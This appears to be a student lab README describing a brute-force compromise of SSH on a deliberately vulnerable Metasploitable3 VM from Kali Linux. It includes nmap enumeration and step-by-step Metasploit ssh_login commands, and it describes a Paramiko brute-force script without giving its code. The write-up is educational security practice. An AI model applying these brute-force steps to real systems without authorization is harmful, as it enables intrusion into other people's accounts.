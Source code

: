 # Phase 1 Work
---

# Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.101
  ![لقطة شاشة 2025-04-29 225928](https://github.com/user-attachments/assets/3f0d03ed-c30f-46d7-a50d-3b23d42c9405)

-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.56.101 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.
![لقطة شاشة 2025-04-29 230118](https://github.com/user-attachments/assets/20f0d103-8a20-4df2-9e9c-70f95b7f92df)


### 💻 Attacker Environment: Kali Linux
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.102
  ![لقطة شاشة 2025-04-29 230105](https://github.com/user-attachments/assets/aba89bfb-3d89-4f8a-a34e-79832e7815d6)


#### Tools Used:
- Metasploit Framework
- Nmap
- Hydra
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak/default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.56.101
```

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:

1. Launch Metasploit:
   ```
   msfconsole
   ```
2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.

## Task 1.2 – Compromise Using Custom Script

- Developed a **Python script** that:
  - Brute-forces SSH login using a small credentials list.
  - Connects to the target and verifies access.
  - Outputs a success message upon successful login.

- Utilized the `paramiko` library for SSH connections.
- Demonstrated successful login to the victim system using weak credentials.

---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



